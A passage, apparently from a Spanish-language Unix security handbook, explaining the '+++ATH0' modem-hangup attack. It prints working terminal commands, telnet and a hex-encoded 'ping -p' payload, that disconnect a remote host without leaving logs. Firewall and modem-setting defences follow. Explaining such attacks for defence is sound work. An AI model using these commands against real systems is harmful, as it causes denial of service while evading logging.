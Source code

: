 (como {\sc ftp} o {\sc smtp}) en un {\it host} con un {\it m\'odem} de estas 
caracter\'{\i}sticas y colgar el {\it m\'odem} remoto sin levantarnos de la 
silla, simplemente enviando la cadena {\tt `+++'} seguida de una orden de 
colgado como {\tt `ATH0'}:
\begin{quote}
\begin{verbatim}
luisa:~# telnet XXX.XXX.X.XX 21
Trying XXX.XXX.X.XX...
Connected to XXX.XXX.X.XX.
Escape character is '^]'.
220 gema FTP server (Version wu-2.4.2-academ[BETA-15](1) Fri Oct 22 
00:38:20 CDT 1999) ready.
USER +++ATH0
^]
telnet> close
Connection closed.
luisa:~# telnet XXX.XXX.X.XX
Trying XXX.XXX.X.XX...
telnet: Unable to connect to remote host: Network is unreachable
luisa:~#
\end{verbatim}
\end{quote}
Bien pero, >d\'onde entra {\tt ping} en este ataque? Muy sencillo: al conectar
a un servicio para enviar la cadena de caracteres, lo habitual es que el sistema
remoto registre la conexi\'on, aunque luego su {\it m\'odem} cuelgue. En 
cambio, muy pocos sistemas registran en los {\it logs} un simple {\tt ping},
por lo que esta orden se convierte en un mecanismo que algunos piratas utilizan
para no dejar rastro de sus acciones; esto se consigue de una forma muy 
sencilla: en la utilidad {\tt ping} de la mayor\'{\i}a de Unices existe un
par\'ametro que permite especificar el contenido del paquete enviado (por 
ejemplo, {\tt `-p'} en Linux), por lo que simplemente hemos de insertar (en
hexadecimal) la cadena {\tt `+++ATH0'} en la trama que enviamos al sistema 
remoto:
\begin{quote}
\begin{verbatim}
luisa:~# ping -c 1 XXX.XXX.X.XX
PING XXX.XXX.X.XX (XXX.XXX.X.XX): 56 data bytes
64 bytes from XXX.XXX.X.XX: icmp_seq=0 ttl=255 time=0.2 ms

--- XXX.XXX.X.XX ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 6.5/6.5/6.5 ms
luisa:~# ping -p 2b2b2b415448300d XXX.XXX.X.XX
PING XXX.XXX.X.XX (XXX.XXX.X.XX): 56 data bytes

^C
--- XXX.XXX.X.XX ping statistics ---
1 packets transmitted, 0 packets received, 100% packet loss
luisa:~# telnet XXX.XXX.X.XX
Trying XXX.XXX.X.XX...
telnet: Unable to connect to remote host: Network is unreachable
luisa:~#
\end{verbatim}
\end{quote}
Para evitar los problemas relacionados con los paquetes {\sc icmp} que sistemas
remotos puedan enviar a nuestra m\'aquina puede ser conveniente filtrar 
dicho protocolo mediante un cortafuegos (incluso situado en el propio equipo); 
si no tenemos esta posibilidad, al 
menos es interesante registrar las tramas de este tipo que llegan hasta nuestra
m\'aquina, con programas como {\tt icmpinfo} (si hacemos esto, hemos de tener
cuidado con las negaciones de servicio ocasionadas por una cantidad de {\it 
logs} excesiva en el disco duro).\\
\\Ah, si es nuestro {\it m\'odem} el que presenta el problema que acabamos de
comentar, podemos solucionarlo mediante la cadena de inicializaci\'on {\tt 
`s2=255'}.
